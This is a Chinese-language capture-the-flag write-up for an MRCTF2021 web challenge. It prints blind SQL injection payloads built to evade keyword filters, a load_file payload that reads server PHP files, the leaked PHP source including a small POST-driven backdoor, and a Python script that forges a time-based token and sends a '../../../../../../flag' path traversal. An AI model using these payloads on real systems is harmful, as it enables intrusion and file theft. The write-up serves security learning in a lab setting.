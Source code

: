 笛卡尔积盲注：

    payload="admin'||(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema like database())),{},1))<{})||((SeLECT+count(*) FROM information_schema.columns A,information_schema.columns B))-''--+"

过滤了and,>,=。
注出了用户名密码发现并没有用，这里实际上是要注出sum.php,hint.php,shell.php三个文件：

    payload="admin'||(ascii(substr((select(load_file(0x2f7661722f7777772f68746d6c2f7368656c6c2e706870))),{},1))<{})||((SeLECT count(*) FROM information_schema.columns A, information_schema.columns B))--+"

shell.php:
    
    <?php
    if($_POST['M2cTf']){
        mrctf($_POST['M2cTf']);
    }

hint.php:
    
    <?php
    require "sum.php";
    $check = $_POST['check'];
    $command = $_POST['command'];
    
    if ($check == enc("MRCTF2021")){
        if (strlen($command < 5)){
            $path = "/proc/self/".$command;
            $myfile = fopen($path,"r") or die("Unable to open file!");
            echo fread($myfile,400000);
            fclose($myfile);
        }
    
    }

sum.php:
    
    <?php
    date_default_timezone_set('GMT');
    $time = time();
    function rand_md($data){
        $data = $data * 11980 + 12345;
        $data = $data << 4;
        return (string)($data) ;
    }
    
    function enc ($data)
    {
    
        $pwd = substr(rand_md(intval(time()/2)),-6,6);
        $key[] ="";
        $box[] ="";
        $pwd_length = 4;
        $data_length = strlen($data);
        $pwd = substr($pwd,3,7);
        for ($i = 0; $i < 256; $i++)
        {
            $key[$i] = ord($pwd[$i % $pwd_length]);
            $box[$i] = $i;
        }
        for ($j = $i = 0; $i < 256; $i++)
        {
            $j = ($j + $box[$i] + $key[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        for ($a = $j = $i = 0; $i < $data_length; $i++)
        {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $k = $box[(($box[$a] + $box[$j]) % 256)];
            $cipher .= chr(ord($data[$i]) ^ $k);
        }
        $cipher = base64_encode($cipher);
        return $cipher;
    }

sum.php这里是个伪随机数，在自己VPS上搭一个就行。
hint.php中strlen函数写得有点奇怪，直接令command为../../../../../../flag即可读取flag：

    import requests
    
    url1 = "http://xxxxxxx.com/test/sum.php"//自己搭一个sum.php
    r = requests.get(url=url1)
    check1 = r.text
    url2 = "http://node.mrctf.fun:10023/hint.php"
    data = {"check":check1,
            "command":"../../../../../../flag"
            }
    print(data)
    r1 = requests.post(url=url2,data=data)
    print(r1.text)

